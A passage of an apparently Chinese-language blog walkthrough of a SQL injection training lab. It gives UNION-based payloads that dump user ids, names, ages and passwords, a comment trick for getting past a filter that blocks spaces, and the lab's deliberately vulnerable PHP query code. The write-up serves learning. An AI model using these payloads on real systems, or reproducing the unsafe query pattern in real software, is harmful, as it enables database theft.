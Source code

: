 ![图像 7.png](http://upload-images.jianshu.io/upload_images/4838174-5f5a33f6d8d7095e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
也就是过滤了空格，所以直接注释空格就好了
> 192.168.132.131/sqli/example2.php?name=root'/**/union/\*\*/select/\*\*/group_concat(id,name,age),2,3,4,5/\*\*/from/\*\*/users/\*\*/%23

![图像 8.png](http://upload-images.jianshu.io/upload_images/4838174-e3dcb7276ddd2938.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### example3
好生奇怪第三关直接可以用第二关的payload
> 192.168.132.131/sqli/example2.php?name=root'/**/union/\*\*/select/\*\*/group_concat(id,name,age),2,3,4,5/\*\*/from/\*\*/users/\*\*/%23 

直接爆出数据来
看看源码去
```php
<?php
    require_once('../header.php');
  require_once('db.php');
    if (preg_match('/\s+/', $_GET["name"])) {
        die("ERROR NO SPACE");  
    }
    $sql = "SELECT * FROM users where name='";
    $sql .= $_GET["name"]."'";

    $result = mysql_query($sql);
    if ($result) {
        ?> 
        <table class='table table-striped'> 
      <tr> <th> id</th> <th> name</th> <th> age</th> </tr> 
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr> ";
                echo "<td> ".$row['id']."</td> ";
                echo "<td> ".$row['name']."</td> ";
                echo "<td> ".$row['age']."</td> ";
            echo "</tr> ";
        }   
        echo "</table> ";
    }
    require '../footer.php';
?> 
```
![图像 11.png](http://upload-images.jianshu.io/upload_images/4838174-96436c89f248dd24.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
这个显得更加高级一点

### example4
这关换成id了，http://192.168.132.131/sqli/example4.php?id=2%20order%20by%205#
一试发现是数字型注入，老办法来,直接给出payload

> http://192.168.132.131/sqli/example4.php?id=2%20union%20select%20group_concat(id,name,age,passwd),2,3,4,5%20from%20users
